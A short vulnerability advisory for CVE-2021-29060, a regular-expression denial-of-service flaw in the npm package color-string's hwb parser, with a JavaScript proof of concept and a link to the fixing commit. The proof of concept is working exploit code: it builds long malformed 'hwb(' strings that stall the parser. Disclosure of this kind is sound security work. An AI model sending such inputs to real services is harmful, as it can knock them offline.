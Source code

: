 # CVE-2021-29060
## Package

color-string

## Overview

[color-string](https://www.npmjs.org/package/color-string) is a Parser and generator for CSS color strings

Affected versions of this package are vulnerable to Regular Expression Denial of Service (ReDoS) via the `hwb` regular expression in the `cs.get.hwb` function in index.js. The affected regular expression exhibits quadratic worst-case time complexity.

## Proof of Concept



```javascript
var colorString = require("color-string")
function build_blank(n) {
 var ret = "hwb("
 for (var i = 0; i < n; i++) {
  ret += "1"
 }
 return ret + "!";
}

// colorString.get('hwb(60, 3%, 60%)')
for(var i = 1; i <= 5000000; i++) {
   if (i % 1000 == 0) {
        var time = Date.now();
        var attack_str = build_blank(i)
        colorString.get(attack_str)
        var time_cost = Date.now() - time;
        console.log("attack_str.length: " + attack_str.length + ": " + time_cost+" ms")
 }
}

```

## GitHub Commit

 https://github.com/Qix-/color-string/commit/0789e21284c33d89ebc4ab4ca6f759b9375ac9d3

